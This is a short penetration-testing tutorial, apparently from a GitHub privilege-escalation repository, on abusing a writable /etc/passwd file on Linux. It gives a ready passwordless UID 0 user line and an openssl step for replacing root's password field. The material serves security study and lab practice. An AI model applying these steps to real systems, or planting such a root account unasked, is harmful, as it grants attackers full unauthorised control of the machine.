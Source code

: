 # /etc/passwd
If we have write permissions in the `/etc/passwd` file we can perform two different types of attack.
1. [Creating a new user.](#creating-a-new-user)
2. [Changing root password.](#changing-root-password)



![0](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/4f6daac4-2309-42c9-a56c-659b7b8e4ee7)


## Creating a new user. 
We can just write a new user with root privileges.<br />
`pentester:` -> Username.<br />
`:::` -> No password.<br />
`0:` -> User ID (UID). If UID = 0 means that our user has superuser privileges.<br />
`0:` -> Group ID (GID). If GID = 0 means that we are part of the root group.<br />
`,,,::` -> Empty camps.<br />
`/:` -> Home directory.<br />
`/bin/bash` -> User shell.<br />
```bash
pentester::0:0:,,,:/:/bin/bash
```



![1](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/2fac5e71-2c05-43f3-b1ad-8ae80b4cbdf0)


![2](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/44e76eb7-0475-48a7-870f-20266e2fa59f)




### Changing root password.
The second technique we are going to exploit is very similar. The difference between them resides in the fact that instead of creating a new user, this time we are going to change root password. 
In our local machine we are going to execute `openssl` to create the new password:
```
openssl passwd <newPassword>
```
![4](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/38d831ea-b1bc-42a6-8896-3756da2ca869)



And then we just have to switch the `x` in the password field.

![5](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/b2f4fe37-8f7b-42c4-a4fc-cb81b1898e17)


![6](https://github.com/PentesterArchive/Privilege-Escalation/assets/161533623/4187491e-310e-4652-b2c7-65c03303042b)


